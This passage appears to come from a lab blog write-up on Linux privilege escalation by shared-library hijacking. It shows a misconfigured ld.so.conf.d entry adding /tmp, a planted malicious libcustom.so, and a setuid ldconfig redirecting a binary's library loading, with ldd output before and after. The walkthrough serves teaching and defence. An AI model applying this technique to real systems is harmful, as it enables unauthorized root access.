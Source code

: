 **/etc/ld.so.conf** is a configuration file pointing to other configuration files that will help the linker to locate libraries.

```bash
boiteaklou@LAB-Blog:~$ cat /etc/ld.so.conf
include /etc/ld.so.conf.d/*.conf
```

Inside **/etc/ld.so.conf.d/**, you can have several files with each of them specifying a directory to explore when searching for libraries.
For example, **libc.conf** contains the following:

```bash
boiteaklou@LAB-Blog:/etc/ld.so.conf.d$ cat libc.conf
# libc default configuration
/usr/local/lib
```

<span style="color:red">If a hazardous administrator creates a configuration file, which adds a world-writable directory (i.e. **/tmp**) to the group of directories being checked by the linker, an attacker could place its malicious library here.</span>

It won't be sufficient for our exploit though! We now need to use **ldconfig** to update the linker's cache so that it will be aware of this new evil library.
The cache can be updated with `ldconfig` without specifying any parameter. However, it has to be executed as root... This is where the setuid bit comes into play. Let me show you.

The configuration file from where everything starts:
```bash
boiteaklou@LAB-Blog:~$ cat /etc/ld.so.conf.d/shouldnt_be_here.conf
/tmp
```

The evil library placed inside /tmp:
```bash
boiteaklou@LAB-Blog:~$ ls -l /tmp/
total 12
-rwxrwxr-x 1 boiteaklou boiteaklou 7096 Nov 20 11:01 libcustom.so
```

`ldd` output **BEFORE** executing `ldconfig`:
```bash
boiteaklou@LAB-Blog:~$ ldd /usr/bin/myexec
	linux-gate.so.1 =>  (0xb7759000)
	libcustom.so => /usr/lib/libcustom.so (0xb774c000)	# Pointing to the original library
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7596000)
	/lib/ld-linux.so.2 (0xb775a000)
```

`ldd` output **AFTER** executing `ldconfig`:
```bash
boiteaklou@LAB-Blog:~$ ldconfig
boiteaklou@LAB-Blog:~$ ldd /usr/bin/myexec
	linux-gate.so.1 =>  (0xb77c8000)
	libcustom.so => /tmp/libcustom.so (0xb77bb000)		# Now pointing to /tmp/libcustom.so
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7605000)
	/lib/ld-linux.so.2 (0xb77c9000)
```
